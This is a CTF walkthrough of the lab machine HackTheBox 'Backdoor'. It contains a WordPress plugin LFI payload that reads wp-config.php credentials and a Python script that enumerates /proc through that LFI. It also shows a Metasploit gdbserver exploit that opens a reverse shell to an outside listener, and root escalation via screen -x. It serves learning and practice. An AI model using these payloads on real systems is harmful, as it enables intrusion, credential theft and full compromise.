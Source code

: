 ```yaml
---
title: "HackTheBox: \"Backdoor\" Walkthrough"
date: 2022-04-24T19:56:04+02:00
tags: ['hackthebox', 'ctf']
slug: "hackthebox-backdoor-walkthrough"
draft: false
---
```


# Introduction

The now retired *Backdoor* machine on HackTheBox is supposed to be an "easy" machine, so
it should be absolutely straight-forward. Let's see!

# Foothold

On this machine, I started with a directory scan, using the `fuzz-Bo0oM.txt` list, which
usually yields good results - at least on HackTheBox. We'll notice that directory
listing is enabled almost everywhere, so we can also explore manually.

In the end, we'll find a pretty standard WordPress installation with a
single plugin called "ebook-download" enabled - for which we will find a LFI vuln pretty quick:

```plain
.../filedownload.php?ebookdownloadurl=../../../wp-config.php
```

Neat - we can download the WordPress configuration, containing credentials for the database.
But it seems we can't do anything with the credentials for the database server.

Let's continue with a port scan:
```plain
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
```
Of course, `1337/tcp` stands out. But what kind of service is running there?
We can try a few simple things: Try to open it in a browser, try to SSH and as last resort,
try telnet. Sadly, none of that works.

Now, the next step took me a while: Using Linux, we can read `/proc/<pid>/cmdline`
to get information about a running process, so we might be able to find
the process which has opened port 1337. We only need to know the PID - which we don't.
So let's use the LFI we found earlier to scan a range of PIDs.

To be honest, this script could have been *a lot* easier - but somehow I got the idea
"I want to scan faster - I need multiple connections", so I ended up with this.
Maybe I'm able to use it again in the future :wink:

(*Disclaimer: I'm not an async Python expert, so forgive me (or maybe even tell me)
if there is a bad mistake.*)

```python
import asyncio
import aiohttp
from aiohttp import ClientSession, ClientConnectorError

# https://stackoverflow.com/a/61478547
async def gather_with_concurrency(n, *tasks):
    semaphore = asyncio.Semaphore(n)

    async def sem_task(task):
        async with semaphore:
            return await task
    return await asyncio.gather(*(sem_task(task) for task in tasks))

async def fetch_html(url: str, session: ClientSession, **kwargs) -> tuple:
    try:
        resp = await session.request(method="GET", url=url, **kwargs)
    except ClientConnectorError:
        return (url, 404, "")
    return (url, resp.status, await resp.text())

async def make_requests(urls: set, **kwargs) -> None:
    async with ClientSession() as session:
        tasks = []
        for url in urls:
            tasks.append(
                fetch_html(url=url, session=session, **kwargs)
            )
        results = await gather_with_concurrency(10, *tasks)

    for result in results:
        print(f'{str(result[2])}')

if __name__ == "__main__":
    urls = [(
            f"http://10.10.11.125/wp-content/plugins/ebook-download/"
            f"filedownload.php?ebookdownloadurl=/proc/{i}/cmdline"
        ) for i in range(10000)]

    asyncio.run(make_requests(urls=urls))
```

This scan yields (with some garbage removed in the beginning and end,
due to the way the download script works):
```plain
suuser-ccd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
bash-ccd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
gdbserver--once0.0.0.0:1337/bin/true
```

Finally! On port 1337 there seems to be a `gdbserver` running. That seems
pretty unusual but why not - let's see what we can do with this.

# User

After some research, we find the `exploit/multi/gdb/gdb_server_exec` payload
in metasploit. I used the following configuration, where everything should be
pretty self-explanatory, except for `set target 1`: 0 is x86, 1 is x86_64.
Using the wrong architecture, running the exploit will fail with the message:

> The payload architecture is incorrect: the payload is x86, but x64 was detected from gdb.

```plain
msf6 > use exploit/multi/gdb/gdb_server_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set LHOST 10.10.14.5
LHOST => 10.10.14.5
msf6 exploit(multi/gdb/gdb_server_exec) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/gdb/gdb_server_exec) > set RHOSTS 10.10.11.125
RHOSTS => 10.10.11.125
msf6 exploit(multi/gdb/gdb_server_exec) > set RPORT 1337
RPORT => 1337
msf6 exploit(multi/gdb/gdb_server_exec) > set target 1
target => 1
msf6 exploit(multi/gdb/gdb_server_exec) > set payload payload/linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.14.5:4444
[*] 10.10.11.125:1337 - Performing handshake with gdbserver...
[*] 10.10.11.125:1337 - Stepping program to find PC...
[*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.10.11.125:1337 - Executing the payload...
[*] Sending stage (38 bytes) to 10.10.11.125
[*] Command shell session 2 opened (10.10.14.5:4444 -> 10.10.11.125:54214 ) at 2022-04-24 15:15:56 -0400

id
uid=1000(user) gid=1000(user) groups=1000(user)

```

Done! :thumbsup:

# Root

For privilege escalation, I'm going to ask LinPEAS for an idea. Under the section
"Unix Sockets Listening" there is an unusual entry: `/run/screen/S-root/964.root`.

So there seems to be a screen session running. We cannot directly access this socket file:
```plain
drwx------  2 root root  60 Apr 24 18:13 S-root
```
But as this is an "easy" machine, there are no false trails - so it's highly likely
that we *must* do something with the `screen` command.

As I had literally no idea what do to, I Googled *"access root screen session as user"*
(or something similar - didn't write down the exact search term :wink:), which
lead to [this post](https://unix.stackexchange.com/a/163878). The interesting part being:
```plain
screen -x host_username/session_name
```
We know the username is `root` and the session name is also `root`, so let's try
```plain
screen -x root/root
```
... and we will find ourselves in a screen session with a root shell!

NB: Using a non-upgraded reverse shell, this command fails with the message:

> Must be connected to a terminal.

# Conclusion and Learnings

Although this is an "easy" machine, I struggled a bit after finding the LFI.
Enumerating the processes using `/proc` was something I didn't think off right away.
I spent way too much time on the Python script, but also learned a bit while writing it.
Also, I learned that just because a socket is not readable does not mean I can't do
anything with it. Finally, I learned about screen multi-user mode.

All in all:
I had some fun with this machine, despite the setup not looking very realistic
(except for the LFI).